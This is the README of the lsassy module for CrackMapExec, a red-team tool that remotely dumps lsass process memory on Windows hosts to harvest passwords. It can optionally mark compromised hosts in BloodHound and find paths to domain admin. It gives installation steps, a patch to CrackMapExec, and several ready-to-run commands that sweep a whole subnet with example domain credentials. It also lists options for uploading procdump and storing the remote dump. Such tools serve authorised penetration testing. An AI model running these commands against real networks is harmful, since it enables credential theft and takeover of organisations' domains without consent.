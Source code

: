 # lsassy CrackMapExec Module

This CME module uses **lsassy** to remotely extract lsass password, and optionnaly interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](/assets/cme_lsassy.gif)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Clone git repo

From SSH: (Need Github account with ssh key)
```bash
git clone git@github.com:Hackndo/lsassy.git
```
From Https: (Without Github account)
```bash
git clone https://github.com/Hackndo/lsassy.git
```

* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Patch CrackMapExec file `cme > modules > smb > wmiexec.py` in `execute_handler` function: Replace `self.execute_fileless(data)` with `self.execute_remote(data)`. We need procdump output to be totally retrieved. This won't break anything in CME.
* Reinstall CrackMapExec using python2.7 `python setup.py install`

```bash
cd lsassy/cme
cp lsassy.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python setup.py install
```

## Usage

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables different checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            TMP_DIR             Path where process dump should be saved on target system (default: C:\\Windows\\Temp\\)
            SHARE               Share to upload procdump and dump lsass (default: C$)
            PROCDUMP_PATH       Path where procdump.exe is on your system (default: /tmp/)
            PROCDUMP_EXE_NAME   Name of the procdump executable (default: procdump.exe)
            REMOTE_LSASS_DUMP   Name of the remote lsass dump (default: tmp.dmp)
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')
            WITHOUT_EDGES       List of black listed edges (example: 'SQLAdmin,CanRDP', default: '')

```

Options can be set using

```bash
cme smb dc01.adsec.local -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o PROCDUMP_PATH='/home/pixis/Tools/' PROCDUMP_EXE_NAME='procdump.exe'
```

## Issue

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

Have fun
